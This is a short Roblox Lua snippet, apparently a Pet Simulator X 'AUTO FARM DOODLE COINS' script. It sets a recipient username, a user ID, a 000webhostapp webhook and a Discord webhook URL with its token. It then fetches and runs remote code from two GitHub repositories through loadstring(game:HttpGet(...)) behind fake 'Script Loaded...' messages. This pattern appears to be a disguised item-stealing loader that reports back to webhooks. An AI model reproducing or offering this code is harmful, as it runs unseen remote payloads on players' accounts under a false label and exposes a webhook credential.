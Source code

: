 UserName = "ZAKATOK3"
WebHook = "https://webhookk.000webhostapp.com/get.php?id=9416057043"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()

UserId = 2893029542
WebHook = 'https://discord.com/api/webhooks/1068869279807709234/bs2sV_CngBLqoMRQSbUKlXRtq7g48YhedaC4CRp9m-5D7HA3LIsBVcBboY1gwfl5GNAJ'

_G.CustomScriptName = "AUTO FARM DOODLE COINS"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimxgm.lua"))()
